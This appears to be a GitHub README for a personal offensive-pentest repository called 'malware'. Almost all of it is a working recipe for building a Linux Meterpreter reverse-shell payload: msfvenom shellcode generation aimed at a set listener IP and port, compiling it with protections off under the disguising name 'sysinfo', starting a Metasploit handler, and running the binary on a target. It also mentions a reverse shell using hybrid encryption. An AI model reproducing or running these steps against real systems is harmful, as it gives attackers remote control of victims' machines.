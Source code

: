 # malware
My personal Python Scripts Base on Python for Offensive Pentest
### warning
The public and private keys that i have used in TCP reverse shell base on Hybrid encryption is just a test...!
in real world you should protect your real private key!
#### using payload.c (simple malware in c with meterpreter shellcode)
      sudo apt-get update && apt-get install gcc
      ## Build raw shellcode in C
      # WARNING: Replace LHOST value by your ip address
      # WARNING: If your attacking a x86 bit system, then change the arch from x64 to x86
      sudo msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=666 -a x64 --platform linux -f c -o chars.raw


      ## see whats written inside template (optional)
      cat chars.raw --------> replace this shellcode into default shellcode incode
      ## compile payload.c to payload (using gcc)
      sudo gcc -fno-stack-protector -z execstack payload.c -o sysinfo


      ## start multi-handler
      # WARNING: Replace LHOST value by your ip address
      # WARNING: If your attacking a x86 bit system, then change the arch from x64 to x86
      sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.11; set LPORT 666; set PAYLOAD linux/x64/meterpreter/reverse_tcp; exploit'


      ## execute payload on target system
      sudo chmod +x sysinfo && ./sysinfo
      
